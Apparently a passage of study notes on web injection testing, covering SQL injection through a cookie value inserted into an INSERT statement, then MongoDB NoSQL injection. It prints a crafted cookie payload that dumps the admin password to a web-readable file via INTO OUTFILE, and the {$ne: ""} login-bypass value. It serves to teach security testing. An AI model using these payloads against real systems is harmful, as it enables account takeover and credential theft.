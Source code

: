 
The application uses an INSERT statement to add you to the ActiveUsers table. 

INSERT statements add a row into the specified table with the specified values:

```sql
INSERT INTO ActiveUsers VALUES ('2', 'test');
```

In this case, an attacker can craft a malicious cookie to inject into the INSERT statement:

```http
GET /
Host: example.com
Cookie: user_id="2', (SELECT Password FROM Users WHERE Username='admin' INTO OUTFILE '/var/ www/html/output.txt '));-- ", username=test

```

This cookie  will, in turn, cause the INSERT statement to save the admin’s password into the output.txt file on the victim server:

```sql
INSERT INTO ActiveUsers VALUES ('2', (SELECT Password FROM Users WHERE Username='admin' INTO OUTFILE '/var/ www/html/output.txt '));-- ', 'test');
```


Finally, you will find the password of the admin account stored into the output.txt file on the target server.


###### Look for NoSQL Injections


No sql injection just mean that, it does not use a relational database system like tables, which is common for MySQL, post-gre SQL etc, 

But in here NoSql uses key-value pairs , graphs etc to store data this is the key difference between these two.

Modern NoSQL databases, such as MongoDB, Apache CouchDB, and Apache Cassandra, are also vulnerable to injection attacks

Take MongoDB, for example,

In MongoDB syntax, 
`Users.find()`: returns users that meet a certain criteria. 

For example, 
the following query returns users with the username vickie and the password password123:

```SQL
Users.find({username: 'vickie', password: 'password123'});
```

If the application uses this functionality to log in users and populates the database query directly with user input, like this:

```sql
Users.find({username: $username, password: $password});

```
attackers can submit the password `{$ne: ""}` to log in as anyone. 
